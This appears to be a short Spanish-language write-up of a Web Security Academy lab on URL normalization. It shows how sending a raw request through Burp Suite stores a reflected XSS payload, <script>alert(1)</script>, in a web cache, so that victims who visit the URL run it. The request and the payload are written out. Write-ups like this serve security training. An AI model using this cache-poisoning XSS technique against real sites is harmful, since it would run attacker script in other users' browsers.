






# URL normalization



## LAB

Observamos que el sitio web implementa la cache para que se cargan los recursos.



Por otro lado nos indican que existe un xss pero al momento de consultar desde el navegador lo urlcodea.




```c
https://0a4500be03357899819f2b1b0006006c.web-security-academy.net/test</p><script>alert(1)</script>
```



Pero desde el burpsuite podemos observar que se puede inyectar un xss y este queda en cache.

```c
GET /test</p><script>alert(1)</script> HTTP/2
Host: 0a4500be03357899819f2b1b0006006c.web-security-academy.net
```



Pero al enviar la solicitud desde el burpsuite este queda en cache, por lo que si se proporciona a la victima la url correcta que es:

```c
https://0a4500be03357899819f2b1b0006006c.web-security-academy.net/test</p><script>alert(1)</script>
```

Y  de esta manera podría ejecutar el xss.



